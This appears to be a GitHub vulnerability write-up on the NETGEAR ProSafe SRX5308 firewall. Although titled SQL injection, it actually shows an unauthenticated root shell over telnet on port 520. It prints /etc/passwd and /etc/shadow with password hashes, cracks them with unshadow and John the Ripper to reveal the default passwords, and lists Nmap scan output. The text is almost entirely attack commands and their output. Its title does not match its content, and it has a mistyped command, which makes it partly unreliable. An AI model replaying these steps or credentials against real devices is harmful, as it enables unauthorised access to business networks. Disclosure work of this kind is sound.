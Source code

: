 # NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308 SQL Injection Vulnerability

<img src="https://raw.githubusercontent.com/0x01369/NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308/main/images.jpg" class="shrinkToFit" width="700" height="284">

<img src="https://raw.githubusercontent.com/0x01369/NETGEAR-ProSafe-Gigabit-Quad-WAN-SSL-VPN-Firewall-SRX5308/main/images.png" class="shrinkToFit" width="700" height="284">

* The NETGEAR ProSAFE SRX5308 Quad WAN Gigabit SSL VPN Firewall is perfect for even the most demanding business networks. The SRX5308 features a hardware-* accelerated data flow architecture that allows for 1 Gbps of stateful firewall throughput.

*Port Scan

* An Unencrypted Telnet 

* 520/tcp  open     telnet
* | fingerprint-strings: 
* |   GetRequest: 
* |     HTTP/1.0
* |     /tmp # GET / HTTP/1.0
* |   SIPOptions: 
* |     OPTIONS sip:nm SIP/2.0
* |     Via: SIP/2.0/TCP nm;branch=foo
* |     From: <sip:nm@nm>;tag=root
* |     <sip:nm2@nm2>
* |     Call-ID: 50000
* |     CSeq: 42 OPTIONS
* |     Max-Forwards: 70
* |     Content-Length: 0
* |     Contact: <sip:nm@nm>
* |     Accept: application/sdp
* |   tn3270: 
* |     ^@IBM-3279-4-E
* |_    ^Y/tmp # IBM-3279-4-E

* telnet 192.168.1.2 520

* cat /etc/passwd

root:x:0:0:root:/root:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
showid:1lBVM0/fM8rqk:0:0:sid:/:/pfrm2.0/bin/showid.sh
admin:x:0:2:Linux User,,,:/home/admin:/pfrm2.0/bin/platform.cli
guest:x:0:1000:Linux User,,,:/home/guest:/pfrm2.0/bin/platform.cli

* cat /etc/shadow

daemon:*:13189:0:99999:7:::
root:CxqJynrkPOtP.:12374:0:99999:7:::
admin:m1LVojhaR1U5Y:11582:0:99999:7:::
guest:K7Vjga.vILkVA:11582:0:99999:7:::

* root@kali:~$ unshadow /home/root/Desktop/passwd /home/root/Desktop/shadow > /home/root/Desktop/status

root:CxqJynrkPOtP.:0:0:root:/root:/bin/sh
nobody:x:0:0:nobody:/nonexistent:/bin/false
showid:1lBVM0/fM8rqk:0:0:sid:/:/pfrm2.0/bin/showid.sh
admin:m1LVojhaR1U5Y:0:2:Linux User,,,:/home/admin:/pfrm2.0/bin/platform.cli
guest:K7Vjga.vILkVA:0:1000:Linux User,,,:/home/guest:/pfrm2.0/bin/platform.cli

* root@kali:~$ john /home/root/Desktop/status

* Loaded 2 password hashes with 2 different salts (descrypt, traditional crypt(3) [DES 128/128 SSE2])

* Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist

* password (showid)

* password (guest)

* root@kali:~$ map -sS -sV 192.168.1.2

* Starting Nmap 7.91 ( https://nmap.org )

* PORT STATE SERVICE VERSION

* Starting Nmap 7.92 ( https://nmap.org ) at
* Nmap scan report for localhost
* Host is up (0.079s latency).
* Not shown: 65510 closed tcp ports (reset)
* PORT     STATE    SERVICE       VERSION

53/tcp   open     domain        dnsmasq 2.45
| dns-nsid: 
|_  bind.version: dnsmasq-2.45
80/tcp   open     http          Embedded HTTP Server (Cisco firewall http config)
|_http-title: Did not follow redirect to https://localhost/
|_http-server-header: Embedded HTTP Server.

443/tcp  open     ssl/https?
| ssl-cert: Subject: commonName=Netgear VPN Firewall /organizationName=Netgear Inc./countryName=US
| Not valid before: 2013-01-30T12:00:01
|_Not valid after:  2023-01-28T12:00:01
|_ssl-date: 2001-10-23T03:44:03+00:00; -20y54d07h26m45s from scanner time.

520/tcp  open     telnet
| fingerprint-strings: 
|   GenericLines: 
|     /tmp # 
|     /tmp # 
|     /tmp #
|   GetRequest: 
|     HTTP/1.0
|     /tmp # GET / HTTP/1.0
|     /bin/sh: GET: not found
|     /tmp # 
|     /tmp #
|   Help: 
|     /tmp # HELP
|     /bin/sh: HELP: not found
|     /tmp #
|   NCP, NULL: 
|     /tmp #
|   RPCCheck: 
|     ^@^@(r
|   SIPOptions: 
|     OPTIONS sip:nm SIP/2.0
|     Via: SIP/2.0/TCP nm;branch=foo
|     From: <sip:nm@nm>;tag=root
|     <sip:nm2@nm2>
|     Call-ID: 50000
|     CSeq: 42 OPTIONS
|     Max-Forwards: 70
|     Content-Length: 0
|     Contact: <sip:nm@nm>
|     Accept: application/sdp
|     /tmp # OPTIONS sip:nm SIP/2.0
|     /bin/sh: OPTIONS: not found
|     /tmp # Via: SIP/2.0/TCP nm;branch=foo
|     /bin/sh: Via:: not found
|     /tmp # From: <sip:nm@nm>;tag=root
|     /bin/sh: syntax error: unexpected ";"
|     /tmp # To: <sip:nm2@nm2>
|     /bin/sh: syntax error: unexpected newline
|     /tmp # Call-ID: 50000
|     /bin/sh: Call-ID:: not found
|     /tmp # CSeq: 42 OPTIONS
|     /bin/sh: CSeq:: not found
|     /tmp # Max-Forwards: 70
|     /bin/sh: Max-Forwards:: not found
|     /tmp # Content-Length: 0
|     /bin/sh: Content-Length:: not found
|     /tmp # Contact: <sip:nm@nm>
|     /bin/sh: syntax error: unexpected newline
|     /tmp # Accept: application/sdp
|     /bin/sh: Accept:: not found
|     /tmp # 
|     /tmp #
|   tn3270: 
|     ^@IBM-3279-4-E
|_    ^Y/tmp # IBM-3279-4-E

7911/tcp open     omapi         ISC (BIND|DHCPD) OMAPI
9725/tcp open     unknown

Host script results:
|_clock-skew: -7359d08h26m45s











